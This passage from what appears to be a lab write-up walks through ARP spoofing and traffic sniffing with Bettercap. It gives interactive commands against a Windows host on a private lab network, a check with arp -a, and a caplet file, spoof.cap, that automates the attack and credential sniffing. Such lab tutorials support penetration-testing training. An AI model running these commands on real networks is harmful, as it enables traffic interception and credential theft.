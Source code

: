 Before automating, I tested the attack manually using Bettercap:

```bash
# Launch Bettercap
sudo bettercap -iface eth0

# Inside Bettercap interactive shell:
net.probe on                              # Discover hosts on network
set arp.spoof.fullduplex true            # Enable bidirectional spoofing
set arp.spoof.targets 172.16.236.145     # Set Windows machine as target
arp.spoof on                              # Start ARP spoofing
net.sniff on                              # Begin packet sniffing
```

**What's happening:**
- `net.probe on` - Discovers active hosts on the network
- `arp.spoof.fullduplex true` - Spoofs ARP packets to both target AND gateway (bidirectional)
- `arp.spoof.targets` - Specifies the victim machine
- `arp.spoof on` - Starts sending poisoned ARP replies
- `net.sniff on` - Captures and parses network traffic for credentials

### Phase 3: Verification

On the Windows target machine, I verified the attack was successful:

```cmd
arp -a
```

**Expected result**: The MAC address for the gateway (172.16.236.2) should now show the attacker's MAC address instead of the actual gateway MAC.

### Phase 4: Automation with Caplets

After successfully testing the attack manually, I got lazy (and smart!) and decided to automate the entire process using a Bettercap caplet.

**Creating the caplet:**

I created a file called `spoof.cap` with all the commands:

```bash
# Create the caplet file
nano spoof.cap
```

**File contents: `spoof.cap`**
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 172.16.236.145
arp.spoof on
net.sniff on
```

Save the file (Ctrl+O, Enter, Ctrl+X in nano).

**Why caplets are awesome:**
- ✅ No need to type commands every session
- ✅ Consistent attack execution
- ✅ Easy to modify targets or settings
- ✅ Shareable and reusable
- ✅ Perfect for penetration testing workflows

